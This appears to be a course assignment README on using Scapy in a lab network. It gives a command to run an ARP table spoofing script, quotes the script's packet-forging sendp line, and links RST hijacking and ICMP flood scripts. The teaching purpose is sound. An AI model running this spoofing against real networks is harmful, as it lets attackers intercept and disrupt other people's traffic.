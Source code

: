 ## Assignment 3 - Using Scapy

 * [2. Testing Scapy](#2-testing-scapy)
 * [3. RST Hijacking](#3-rst-hijacking)
 * [4. Redirect response to ICMP echo/request](#4-redirect-response-to-icmp-echorequest)

### 2. Testing scapy

Repeat the ARP table attack from [Assignment 2], but using scapy instead of nemesis.
On machine 2 obtain the MAC addresses of machines 1 and 2.

```
cd csc-course/assignment3 &&
sudo python arpp.py -S 192.168.1.3 -D 192.168.1.1 -h <MAC machine 2> -m <MAC machine 1> -i enp0s3
```

If succesful, the ARP table of machine 1 will now have a spoofed MAC address for machine 3.

The python script achieves this with the following command:
```
sendp(Ether(dst=dstMAC, src=srcMAC)/ARP(hwsrc=srcMAC, hwdst=dstMAC, psrc=srcIP, pdst=dstIP), iface=devID)
```

Scapy allows us to create our own packets, namely stacking different protocol layers.
The previous command is sending an ARP Ethernet packet.
To do so, it relies on the composition operator `/` to stack the Ethernet and ARP layers.

Check the documentation for [scapy].

### 3. RST Hijacking

Check implementation in [rst_hijack.py].

### 4. Redirect response to ICMP echo/request 

Check implementation in [icmp_flood.py].

[assignment 2]: assignment2.md
[scapy]: http://scapy.readthedocs.io
[rst_hijack.py]: assignment3/rst_hijack.py
[icmp_flood.py]: assignment3/icmp_flood.py


